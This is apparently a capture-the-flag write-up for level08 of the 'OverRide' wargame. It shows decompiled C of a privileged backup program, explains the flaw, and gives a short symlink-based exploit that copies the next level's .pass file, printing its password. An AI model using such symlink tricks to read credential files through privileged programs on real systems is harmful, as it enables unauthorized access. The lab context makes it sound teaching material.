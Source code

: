 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  FILE *v4;
  FILE *stream;
  int fd;
  char buf;
  char dest[104];
  unsigned __int64 v9;

  v9 = __readfsqword(28);
  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  v4 = fopen("./backups/.log", "w");
  if ( !v4 )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(v4, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(v4, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

### Explanation

This binary takes a file path as a parameter and prints its content in `./backups/` + `argv[1]`.
It first checks whether the path `./backups/.log` exists. This file contains logs indicating whether `./backups/` + `argv[1]` was successfully opened and closed.
Next, the program verifies if the specified file can be opened (with the privileges of the user level09) by calling `fopen()`.
Finally, it calls `open()` to create a file in `./backups/` with our parameter name and then uses `write()` to save the file's content passsed as parameter in.

To obtain the password of the next user, we need to pass the path of the password file owned by level09 as a parameter.
The first issue is that we must pass a valid path that does not start with a backslash `/`, otherwise, when the path is created here:

```c
strcpy(dest, "./backups/");
strncat(dest, argv[1], 99 - strlen(dest));
fd = open(dest, 193, 432LL);
```

and then passed into `open()`, the resulting string will contain two `/` characters in a row, creating an invalid path causing the program to `exit()`.
The second issue is that if we pass the file containing the password for the next level as a parameter, we won’t be able to open it since we lack the necessary permissions.

To bypass these issues, we will create a symbolic link to `/home/users/level09/.pass`, because it will first provide a valid format to `open()`, as the symbolic link's name will be used instead of its full path avoiding the double backslash issue.
Secondly, ownership restrictions will be resolved since symbolic links can be read by anyone, allowing `open()` to successfully access the password file.

## Step 2: Exploiting the Binary

```bash
level08@OverRide:~$ ln -s /home/users/level09/.pass password
level08@OverRide:~$ ./level08 password
level08@OverRide:~$ cat ./backups/password
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```